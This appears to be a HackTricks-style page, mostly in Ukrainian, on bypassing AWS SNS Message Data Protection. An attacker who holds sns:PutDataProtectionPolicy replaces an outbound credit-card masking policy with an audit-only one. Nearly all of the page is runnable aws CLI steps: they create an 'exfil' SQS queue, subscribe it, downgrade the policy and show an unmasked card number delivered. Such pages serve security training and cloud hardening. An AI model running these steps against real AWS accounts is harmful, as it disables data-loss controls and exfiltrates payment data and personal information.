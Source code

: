 # AWS - SNS Message Data Protection Bypass via Policy Downgrade

{{#include ../../../../banners/hacktricks-training.md}}

Якщо у вас є `sns:PutDataProtectionPolicy` на темі, ви можете переключити її Message Data Protection policy з Deidentify/Deny на Audit-only (або видалити Outbound controls), тож чутливі значення (наприклад, номери кредитних карт) будуть доставлені без змін до вашої підписки.

## Вимоги
- Права на цільову тему для виклику `sns:PutDataProtectionPolicy` (і зазвичай `sns:Subscribe`, якщо ви хочете отримувати дані).
- Стандартна тема SNS (Message Data Protection підтримується).

## Кроки атаки

- Змінні

```bash
REGION=us-east-1
```

1) Create a standard topic and an attacker SQS queue, and allow only this topic to send to the queue

```bash
TOPIC_ARN=$(aws sns create-topic --name ht-dlp-bypass-$(date +%s) --region $REGION --query TopicArn --output text)
Q_URL=$(aws sqs create-queue --queue-name ht-dlp-exfil-$(date +%s) --region $REGION --query QueueUrl --output text)
Q_ARN=$(aws sqs get-queue-attributes --queue-url "$Q_URL" --region $REGION --attribute-names QueueArn --query Attributes.QueueArn --output text)

aws sqs set-queue-attributes --queue-url "$Q_URL" --region $REGION --attributes Policy=Version:2012-10-17
```

2) Attach a data protection policy that masks credit card numbers on outbound messages

```bash
cat > /tmp/ht-dlp-policy.json <<'JSON'
{
"Name": "__ht_dlp_policy",
"Version": "2021-06-01",
"Statement": [{
"Sid": "MaskCCOutbound",
"Principal": ["*"],
"DataDirection": "Outbound",
"DataIdentifier": ["arn:aws:dataprotection::aws:data-identifier/CreditCardNumber"],
"Operation": { "Deidentify": { "MaskConfig": { "MaskWithCharacter": "#" } } }
}]
}
JSON
aws sns put-data-protection-policy --region $REGION --resource-arn "$TOPIC_ARN" --data-protection-policy "$(cat /tmp/ht-dlp-policy.json)"
```

3) Subscribe attacker queue and publish a message with a test CC number, verify masking

```bash
SUB_ARN=$(aws sns subscribe --region $REGION --topic-arn "$TOPIC_ARN" --protocol sqs --notification-endpoint "$Q_ARN" --query SubscriptionArn --output text)
aws sns publish --region $REGION --topic-arn "$TOPIC_ARN" --message payment:{cc:4539894458086459}
aws sqs receive-message --queue-url "$Q_URL" --region $REGION --max-number-of-messages 1 --wait-time-seconds 15 --message-attribute-names All --attribute-names All
```

Очікуваний фрагмент показує маскування (хеші):
```json
"Message" : "payment:{cc:################}"
```
4) Знизьте рівень політики до Audit-only (без deidentify/deny заяв, що впливають на Outbound)

Для SNS, Audit-заяви мають бути Inbound. Замінюючи політику на Audit-only Inbound-заяву, ви усуваєте будь-яку Outbound de-identification, тож повідомлення надходять до підписників без змін.
```bash
cat > /tmp/ht-dlp-audit-only.json <<'JSON'
{
"Name": "__ht_dlp_policy",
"Version": "2021-06-01",
"Statement": [{
"Sid": "AuditInbound",
"Principal": ["*"],
"DataDirection": "Inbound",
"DataIdentifier": ["arn:aws:dataprotection::aws:data-identifier/CreditCardNumber"],
"Operation": { "Audit": { "SampleRate": 99, "NoFindingsDestination": {} } }
}]
}
JSON
aws sns put-data-protection-policy --region $REGION --resource-arn "$TOPIC_ARN" --data-protection-policy "$(cat /tmp/ht-dlp-audit-only.json)"
```

5) Опублікуйте те саме повідомлення і перевірте, що немасковане значення доставлено
```bash
aws sns publish --region $REGION --topic-arn "$TOPIC_ARN" --message payment:{cc:4539894458086459}
aws sqs receive-message --queue-url "$Q_URL" --region $REGION --max-number-of-messages 1 --wait-time-seconds 15 --message-attribute-names All --attribute-names All
```
Очікуваний уривок показує CC у відкритому тексті:
```text
4539894458086459
```
## Вплив
- Переключення topic з de-identification/deny на audit-only (або інше видалення Outbound controls) дозволяє PII/секретам проходити без змін до підписок, контрольованих нападником, що дає змогу ексфільтрації даних, які в іншому випадку були б замасковані або заблоковані.

{{#include ../../../../banners/hacktricks-training.md}}

